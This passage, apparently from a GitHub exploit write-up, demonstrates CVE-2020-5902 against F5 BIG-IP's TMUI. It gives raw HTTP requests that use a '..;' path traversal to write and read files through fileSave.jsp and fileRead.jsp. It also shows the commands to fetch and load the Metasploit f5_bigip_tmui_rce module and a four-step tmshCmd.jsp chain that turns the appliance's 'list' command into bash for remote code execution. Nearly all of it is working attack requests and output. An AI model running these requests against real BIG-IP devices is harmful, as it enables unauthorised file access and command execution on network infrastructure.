


#### Burpsuite Requests
```
POST /tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

fileName=/tmp/1.txt&content=CVE-2020-5902


HTTP/1.1 200 OK
Date: Mon, 06 Jul 2020 02:05:29 GMT
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=16070400; includeSubDomains
Set-Cookie: JSESSIONID=x; Path=/tmui; Secure; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
Vary: Accept-Encoding
Content-Length: 4
Connection: close


```

#### File Read /tmp/1.txt



```
GET /tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/tmp/1.txt HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```
HTTP/1.1 200 OK
Date: Mon, 06 Jul 2020 02:06:07 GMT
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=16070400; includeSubDomains
Set-Cookie: JSESSIONID=x; Path=/tmui; Secure; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
Vary: Accept-Encoding
Content-Length: 32
Connection: close


{"output":"CVE-2020-5902\n"}
```

#### upload /tmp/1.txt Successful ！

## 0x04 MSF f5_bigip_tmui_rce 

https://github.com/rapid7/metasploit-framework/blob/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb

#### msf use

`wget -P /usr/share/metasploit-framework/modules/exploits/linux/http/ https://raw.githubusercontent.com/rapid7/metasploit-framework/0417e88ff24bf05b8874c953bd91600f10186ba4/modules/exploits/linux/http/f5_bigip_tmui_rce.rb`

`reload_all`

`exploit/linux/http/f5_bigip_tmui_rce            2020-06-30       excellent  Yes    F5 BIG-IP TMUI Directory Traversal and File Upload RCE`

```
╭─root@kali ~ 
╰─# msfconsole 
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v5.0.87-dev                          ]
+ -- --=[ 2007 exploits - 1096 auxiliary - 343 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: After running db_nmap, be sure to check out the result of hosts and services

msf5 > reload_all 
[*] Reloading modules from all module paths...
               .;lxO0KXXXK0Oxl:.
           ,o0WMMMMMMMMMMMMMMMMMMKd,
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo
  xMMMMMMMMMMWd.               .oNMMMMMMMMMMk
 oMMMMMMMMMMx.                    dMMMMMMMMMMx
.WMMMMMMMMM:                       :MMMMMMMMMM,
xMMMMMMMMMo                         lMMMMMMMMMO
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;
MMMMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:
xMMMMMMMMMd                        ,0MMMMMMMMMMK;
.WMMMMMMMMMc                         'OMMMMMM0,
 lMMMMMMMMMMk.                         .kMMO'
  dMMMMMMMMMMWd'                         ..
   cWMMMMMMMMMMMNxc'.                ##########
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:                                
                                :::::::+:
                      Metasploit

       =[ metasploit v5.0.87-dev                          ]
+ -- --=[ 2007 exploits - 1096 auxiliary - 343 post       ]
+ -- --=[ 562 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Save the current environment with the save command, future console restarts will use this environment again

msf5 > search f5_bigip

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  auxiliary/dos/http/f5_bigip_apm_max_sessions                     normal     No     F5 BigIP Access Policy Manager Session Exhaustion Denial of Service
   1  auxiliary/gather/f5_bigip_cookie_disclosure                      normal     No     F5 BigIP Backend Cookie Disclosure
   2  auxiliary/scanner/http/f5_bigip_virtual_server                   normal     No     F5 BigIP HTTP Virtual Server Scanner
   3  exploit/linux/ssh/f5_bigip_known_privkey        2012-06-11       excellent  No     F5 BIG-IP SSH Private Key Exposure
   4  exploit/linux/http/f5_bigip_tmui_rce            2020-06-30       excellent  Yes    F5 BIG-IP TMUI Directory Traversal and File Upload RCE


msf5 > 

```

## tmshCmd.jsp + fileSave.jsp = Linux RCE

```
1. tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
2. fileSave.jsp?fileName=/tmp/cmd&content=id
3. tmshCmd.jsp?command=list+/tmp/cmd
4. tmshCmd.jsp?command=delete+cli+alias+private+list
````


